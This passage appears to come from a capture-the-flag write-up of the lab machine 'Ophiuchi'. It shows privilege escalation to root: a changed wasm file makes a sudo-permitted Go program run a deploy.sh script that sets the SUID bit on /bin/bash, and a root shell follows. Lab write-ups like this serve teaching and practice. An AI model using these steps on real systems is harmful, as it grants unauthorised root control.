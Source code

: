Using the [corresponding](https://webassembly.github.io/wabt/demo/wat2wasm/index.html) tool to generate wasm from wat, we can change the value to `1` and download the generated wasm file.

[![change_int.png](/img/ophiuchi/change_int.png)](/img/ophiuchi/change_int.png)

We scp this file over to a directory we have write access to.

```
$ scp www/main.wasm admin@10.129.167.24:/dev/shm/main.wasm
admin@10.129.167.24's password: 
main.wasm
```

In this directory we also create a `deploy.sh` script, which is the code we want to run as  root. In this case we simply give bash the suid bit	 as a simple method to obtain root.

`deploy.sh`

```bash
#!/bin/bash
chmod +s /bin/bash
```

With all preparations met we can now do a `go run` with sudo on `/opt/wasm-functions/index.go`
 
```
admin@ophiuchi:/dev/shm$ sudo /usr/bin/go run /opt/wasm-functions/index.go
Ready to deploy

```

Checking bash, we see it has now the suid bit set.

```
admin@ophiuchi:/dev/shm$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1183448 Feb 25  2020 /bin/bash
```

This gives us easy access as the root user and we can add the rootflag to our collection.

```
admin@ophiuchi:/dev/shm$ /bin/bash -p
bash-5.0# id
uid=1000(admin) gid=1000(admin) euid=0(root) egid=0(root) groups=0(root),1000(admin)
bash-5.0# wc -c /root/root.txt
33 /root/root.txt
```
